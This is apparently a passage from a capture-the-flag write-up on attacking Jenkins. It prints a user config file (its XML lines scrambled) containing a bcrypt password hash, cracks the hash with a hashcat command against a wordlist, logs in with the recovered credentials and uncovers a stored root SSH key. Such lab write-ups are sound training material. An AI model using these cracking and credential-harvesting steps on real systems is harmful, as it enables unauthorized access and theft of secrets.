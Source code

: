 ```shell
    <hudson.model.TimeZoneProperty>
        <hudson.model.AllView>
    </hudson.security.HudsonPrivateSecurityRealm_-Details>
      <providerId>default</providerId>
      </roles>
    </jenkins.security.LastGrantedAuthoritiesProperty>
    <jenkins.model.experimentalflags.UserExperimentalFlagsProperty>
    <hudson.model.PaneStatusProperties>
<?xml version='1.1' encoding='UTF-8'?>
  <fullName>jennifer</fullName>
      <seed>6841d11dc1de101d</seed>
  <id>jennifer</id>
  <version>10</version>
      <tokenStore>
          <filterExecutors>false</filterExecutors>
    <io.jenkins.plugins.thememanager.ThemeUserProperty plugin="theme-manager@215.vc1ff18d67920"/>
      <passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>
```

Crack the password with `hashcat` using module `3200`:

```shell
$ hashcat -m 3200 hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt.tar.gz --force
...

$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a:princess

```

We retrieve `jennifer:princess`, enter the username and password in Jenkins.

Inside `Management > Credentials`, we notice that there is a `root` user with an SSH key.

![](../assets/Pasted%20image%2020250515211615.png)

Click on update and see the concealed credentials.

![](../assets/Pasted%20image%2020250515214120.png)
